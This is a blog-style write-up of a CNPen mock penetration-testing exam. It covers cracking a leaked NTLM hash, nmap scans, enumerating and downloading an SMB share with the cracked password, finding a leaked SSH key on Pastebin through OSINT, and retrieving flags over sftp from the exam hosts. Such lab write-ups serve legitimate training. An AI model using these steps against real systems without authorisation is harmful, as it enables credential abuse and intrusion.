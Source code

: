 ```yaml
---
layout: post
title: "[CNPen] CNPen Mock Exam Writeup"
categories: hacking writeup network
---
```


# Introduction
I encountered those "challenges" when doing the mock exam for CNPen. There are 4 questions in total, divided in two parts. They were not hard at all, but I did learn something interesting to share.

# First part
In the first part of the exam, they provided a leaked hash `94643dacaa6b1b9cd9724ddb050b5f01` for a user named `Peter`.
After successfully cracking the hash on [https://crackstation.net](https://crackstation.net/), I retrieved the password. I also knew that the type of the hash was NTLM.

![Crack station](/assets/images/cnpen/cs1.png)

I did an nmap scan to look for running services:
```
rzy@L4SPC % nmap -Pn -sV -p1-10000 s1.cnpen-mock.secops.group                                                         ~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-14 19:58 CDT
Nmap scan report for s1.cnpen-mock.secops.group (54.172.231.84)
Host is up (0.055s latency).
rDNS record for 54.172.231.84: ec2-54-172-231-84.compute-1.amazonaws.com
Not shown: 9998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
4455/tcp open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.44 seconds
```

Next, I'll try the RDP one on port 3389:

![RDP1](/assets/images/cnpen/rdp1.png)

Let's try the other one, I know that `microsoft-ds` service is for file sharing, so let's install Samba and connect to the service:

```
rzy@L4SPC % smbclient -U peter -p 4455 -L s1.cnpen-mock.secops.group                                                  ~
Password for [WORKGROUP\peter]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        secret          Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to s1.cnpen-mock.secops.group failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
It didn't connect but it showed me a list of shared objects. Let's try smbclient with different arguments.

```
rzy@L4SPC % smbclient -U peter -p 4455 //s1.cnpen-mock.secops.group/secret                                            ~
Password for [WORKGROUP\peter]:
Try "help" to get a list of possible commands.
smb: \> get Secret.txt
getting file \Secret.txt of size 66 as Secret.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
rzy@L4SPC % cat Secret.txt                                                                                            ~
flag{HbzBNrndXmTG3d6XwXdwchNpGBbUCRtLzeHrZaTvrQBpexpAZU7tuChxXGv7}%
```
# Second part
The second part of the exam was about OSINT. My objective is to find the leaked SSH key with one clue: `www.certharvest.com`

I used [WHOIS](https://www.whois.com/whois/certharvest.com) and `nslookup` to look for more info. Interestingly, it points to `localhost`.

```
rzy@L4SPC % nslookup www.certharvest.com                                                                              ~
Server:         172.22.208.1
Address:        172.22.208.1#53

Non-authoritative answer:
www.certharvest.com     canonical name = certharvest.com.
Name:   certharvest.com
Address: 127.0.0.1
```
I tried Duckduckgo to search for certharvest (because Google returned not much interesting information) and I found something intriguing: a Twitter (X) account that has posts about OSINT. Coincidence? I don't think so!

![x1](/assets/images/cnpen/x1.png)

![x2](/assets/images/cnpen/x2.png)

One more clue: the email address `certharvest@proton.me`. I tried to look it up on different OSINT sites, no relevance found.

I tried to search on Github, and there was a repo named `certharvest`, for a moment I thought that was it, but no sensitive information found!

Let's try search Pastebin instead. And right of the bat:

![Pastebin](/assets/images/cnpen/pb1.png)

Now the last challenge is to use the ssh key to get to somewhere, specifically to read the flag on `s2.cnpen-mock.secops.group`

Let's scan the site for more information:

```
rzy@L4SPC % nmap -A -Pn -sV s2.cnpen-mock.secops.group                                                                ~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 01:06 CDT
Nmap scan report for s2.cnpen-mock.secops.group (54.173.188.72)
Host is up (0.057s latency).
rDNS record for 54.173.188.72: ec2-54-173-188-72.compute-1.amazonaws.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
222/tcp open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 10:d7:a2:36:a2:d7:a3:dc:c7:fb:73:b7:b3:ca:a2:f1 (ECDSA)
|_  256 fc:a9:d8:ed:8e:d6:62:e0:29:5e:de:51:bf:da:bb:5d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.04 seconds
```

After setting up the key, let's go get the flag:

```
rzy@L4SPC % ssh alice@s2.cnpen-mock.secops.group -p222                                                                ~
This service allows sftp connections only.
Connection to s2.cnpen-mock.secops.group closed.
rzy@L4SPC % sftp -P 222 alice@s2.cnpen-mock.secops.group                                                              ~
Connected to s2.cnpen-mock.secops.group.
sftp> ls
alice
sftp> cd alice/
sftp> ls
flag.txt
sftp> get flag.txt
Fetching /alice/flag.txt to flag.txt
flag.txt                                                                              100%   67     0.7KB/s   00:00
sftp> ^D
rzy@L4SPC % cat flag.txt                                                                                              ~
flag{j7j9wTek9Mevc48NfNJD4eAWhi6FQRfaW22irWAcu2NBiVTcuHJ7qHA9g6tH}
```
And done!

# Conclusion
For an intermediate certificate, this is not hard. But this exam requires certain practical skills! 